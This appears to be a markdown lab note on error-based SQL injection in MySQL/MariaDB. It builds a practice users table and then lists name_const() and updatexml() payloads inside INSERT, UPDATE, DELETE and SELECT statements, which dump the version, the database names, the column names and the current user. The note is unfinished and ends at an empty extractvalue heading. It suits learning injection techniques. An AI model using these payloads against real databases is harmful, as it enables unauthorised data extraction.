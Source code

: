 # SQLi-select-insert-update-delete
- Create a db for the lab:
```
Create database newdb;
use newdb
CREATE TABLE users
(
id int(3) NOT NULL AUTO_INCREMENT,
username varchar(20) NOT NULL,
password varchar(20) NOT NULL,
PRIMARY KEY (id)
);
```
- Now let’s insert some sample data into our database. The syntax would be

```
insert into users (id, username, password) values (1, 'Jane', 'Eyre');
```
- Using name_const()
  
Syntax:
```
insert into users (id, username, password) values (1,"*(select*from(select(name_const(version(),1)),name_const(version(),1))a)* ", 'Eyre');
```
- Using updatexml()
  
  * The updatexml() function is an SQL function in MariaDB and MySQL commonly used to perform operations on XML data. However, when used with non-standard parameters or non-XML data, it can cause errors and this error message can sometimes display sensor information such as database version instead of . This is often leveraged in SQL injection attacks to get information from the database.
  
 - Syntax
 
  updatexml(XML_document, XPath_string, new_value)

- Syntax

  *   Select
    
    ```
    SELECT updatexml(1, concat(0x7e, database()), 0); //Dump current db name
    ```
    
    ```
    SELECT updatexml(1, concat(0x7e, (SELECT group_concat(schema_name) FROM information_schema.schemata)), 0);//Dump list of db
    ```
  * Insert:

  ```
    INSERT INTO users (id, username, password) VALUES (3, updatexml(1, concat(0x7e, (version())), 0), 'Eyre');
  ```
  *  Delete:
  ```
    DELETE FROM users WHERE id = 1 OR updatexml(1, concat(0x7e, version()), 0);
  ```
  * Update:
  ```
    UPDATE users SET password = 'dummy'
    WHERE id = 2 AND username = 'Nervo' OR updatexml(1, concat(0x7e, version()), 0);  //Statement AND is wrong and updatexml(1, concat(0x7e, version()), 0) is alway dump error -->it True
  ```
  ```
    SET password = (SELECT updatexml(1, concat(0x7e, version()), 0))
        WHERE id = 2 AND username = 'Nervo';
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema     = database())), 0); //Dump list of comlumns
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT user())), 0); // Dump curent user
  ```
- Using extractvalue()


    
    
